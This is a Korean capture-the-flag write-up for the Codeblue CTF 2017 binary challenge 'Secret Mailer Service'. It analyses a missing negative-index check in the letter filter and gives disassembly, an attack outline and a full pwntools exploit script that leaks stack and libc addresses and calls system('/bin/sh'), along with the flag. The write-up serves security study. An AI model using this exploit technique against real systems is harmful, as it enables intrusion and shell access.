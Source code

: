 # [PWN] Codeblue CTF 2017 - Secret Mailer Service

# Description

nc sms.tasks.ctf.codeblue.jp 6029

# Analysis

해당 문제는 3가지의 기능을 가지고 있다.

1. Add Letter
   *  Letter을 추가하는 기능
   *  최대 Letter 5개까지 추가 가능
   *  Letter의 문자열 최대 길이 256
2. Delete Letter
   *  인덱스 제한 0~4
   *  삭제 대상은 전부 0으로 초기화
3. Post Letter
   *  인덱스 제한 0~4
   *  필터 적용 메뉴에서 음수 체크 안함 ( **취약점 발생** )

우선 취약점이 발생하는 부분인 Post의 어셈 코드를 보자.

```
.text:08048B79                 mov     eax, [ebp+var_10]
.text:08048B7C                 mov     edx, off_804B048[eax*4]
.text:08048B83                 mov     eax, [ebp+var_C]
.text:08048B86                 shl     eax, 3
.text:08048B89                 mov     ecx, eax
.text:08048B8B                 shl     ecx, 5
.text:08048B8E                 add     ecx, eax
.text:08048B90                 mov     eax, [ebp+arg_0]
.text:08048B93                 add     eax, ecx
.text:08048B95                 mov     ecx, [eax+4]
.text:08048B98                 mov     eax, [ebp+var_C]
.text:08048B9B                 shl     eax, 3
.text:08048B9E                 mov     ebx, eax
.text:08048BA0                 shl     ebx, 5
.text:08048BA3                 add     ebx, eax
.text:08048BA5                 mov     eax, [ebp+arg_0]
.text:08048BA8                 add     eax, ebx
.text:08048BAA                 add     eax, 8
.text:08048BAD                 sub     esp, 4
.text:08048BB0                 push    ecx             ; n
.text:08048BB1                 push    eax             ; ptr
.text:08048BB2                 push    [ebp+s]         ; s
.text:08048BB5                 call    edx ; sub_8048742
```

필터 적용 메뉴에서 입력 받은 값만큼 + 또는 -하여 `call ebx`를 통해 실행한다.

여기서 주의할 점은 더블 포인터여야 실행이 가능하다는 것이다.

즉, 이를 이용해 해당 바이너리에 있는 .got.plt를 마음대로 사용이 가능하다.

공격 순서는 다음과 같다.

1. printf를 이용해 stack주소 Leak
2. memset을 이용해 파일 스트림을 덮고 printf을 통해 libc주소 Leak
3. gets함수를 통해 파일 스트림에 /bin/sh 삽입
4. system을 통해 /bin/sh실행

# Exploit

```python
from pwn import *
import sys

def leak(addr, size, title=""):
	print "*** {} : {} ***".format(hex(addr), title)
	print hexdump(r.leak(addr, size), begin=addr, skip=False)

IP = 'sms.tasks.ctf.codeblue.jp'
PORT = 6029
FN = './mailer'

if len(sys.argv)>1:
    r = remote(IP,PORT)
    e = ELF('./libc.so.6')
else:
    r = process(FN)
    e = ELF('/lib/i386-linux-gnu/libc.so.6')

c0 = lambda: r.recvuntil('>')
s = lambda x: r.sendline(str(x))

def pAdd(contents):
	s(1)
	r.recvuntil(':')
	s(contents)

def pDelete(idx):
	s(2)
	r.recvuntil(':')
	s(idx)

def pPost(idx, f, ret=False):
	s(3)
	r.recvuntil(':')
	s(idx)
	c0()
	s(f)
	if ret:
		return r.recvuntil('1.').split('\x0a\x44\x6f\x6e\x65\x21\x0a\x0a\x31\x2e')[0]

FILTER_BASE = 0x0804B048
PRINTF = -14
SETBUF = -15
MEMSET = -4
io_stderr_offset = 0x1b2cc0
system_offset = e.symbols['system']
gets_offset = e.symbols['gets']

raw_input()
# Leak Stack addr
c0()
pAdd('A')
c0()
pPost(0,SETBUF)
c0()
stackLeak = u32(pPost(0,PRINTF,ret=True)[5:5+4])
print "[*] Stack Address : %s"%(hex(stackLeak))

# Leak Libc addr
c0()
pDelete(0)
c0()
pAdd('AAAA'*13)
c0()
pPost(0,MEMSET)
c0()
libcLeak = u32(pPost(0,PRINTF,ret=True)[-5:-1])-io_stderr_offset
print "[*] Libc Base Address : %s"%(hex(libcLeak))

# gets /bin/sh
c0()
pDelete(0)
c0()
pAdd(p32(libcLeak + gets_offset))
c0()
pPost(0,(((stackLeak - FILTER_BASE) - 0x100000000) / 4))
s('/bin/sh;\x00')

# call system('/bin/sh')
c0()
pDelete(0)
c0()
pAdd(p32(libcLeak + system_offset))
c0()
pPost(0,(((stackLeak - FILTER_BASE) - 0x100000000) / 4))

r.interactive()

# CBCTF{4R3_YOU_w4RM3D_UP_f0R_MORE_PWNabLeS?}
```



**CBCTF{4R3_YOU_w4RM3D_UP_f0R_MORE_PWNabLeS?}**